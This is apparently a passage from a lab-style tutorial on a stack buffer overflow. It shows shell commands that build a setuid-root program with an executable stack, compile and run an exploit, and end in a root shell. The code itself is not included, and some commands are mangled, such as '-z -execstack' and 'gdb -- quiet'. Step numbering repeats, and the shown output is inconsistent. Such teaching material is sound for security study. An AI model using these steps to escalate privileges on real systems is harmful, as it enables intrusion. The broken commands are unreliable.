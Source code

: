 Step 3: Shellcode
Step 4: vuln.c
```sh
bt ~ # gcc -o vuln -z -execstack vuln.c
bt ~ # chmod 4755 vuln
bt ~ # gdb -- quiet vuln
exit
bt ~ # ./vuln
```
Step 4: exploit.c
```sh
bt ~ # gcc exploit.c -o exploit
bt ~ # ./exploit
```
Step 5: Ultimately
Once the program above has been completed, it should be compiled and run to generate the contents. Afterward, the vulnerable program stack should be run. If the exploit has been implemented correctly, a root shell should be obtainable.
```sh
bt ~ # ./exploit
Address if exploitable() function: 0x80485ba
Segmentation fault
bt ~ # ./vuln
Segmentation fault
bt ~ # whoami
root
```

## Extra: Determining where the segmentation error in c using gdb (Screenshots below)

![7](./images/7.png)
